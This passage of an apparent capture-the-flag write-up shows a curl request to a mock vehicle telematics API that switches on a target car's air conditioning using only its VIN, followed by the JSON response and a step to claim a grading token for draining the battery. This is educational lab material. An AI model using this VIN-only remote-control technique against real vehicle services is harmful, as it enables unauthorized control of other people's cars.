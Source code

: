 Since the target's VIN is given to us in the challenge description, we can now make requests to the API as the target:

```bash
curl "http://twig-api.merch.codes/twig/gdc/ACRemoteRequest?DCIM=&VIN=R0MHBBXF3P5069X37&RegionCode=US"
```

This enables the target's AC, which we can confirm with:

```json
//curl "http://twig-api.merch.codes/twig/gdc/ACRemoteRequest?DCIM=&VIN=R0MHBBXF3P5069X37&RegionCode=US"
{
    "status":200,
    "message":"success",
    "RemoteACRecords":{
        "OperationResult": "START_BATTERY",
        "OperationDateAndTime": "Nov 18, 2024 06:15 PM",
        "RemoteACOperation": "START",
        "ACStartStopDateAndTime":  "Nov 18, 2024 06:15 PM",
        "CruisingRangeAcOn": "103498.1",
        "CruisingRangeAcOff":"101866.1",
        "ACStartStopURL":"",
        "PluginState":"NOT_CONNECTED",
    },
    "OperationDateAndTime": "Nov 18, 2024 06:15 PM"
}
```

With the AC on, visit `challenge.us` and run the grading script to get the first token.

![Screenshot of grading server after draining battery](./imgs/gradingBattery.png "Token for draining battery")
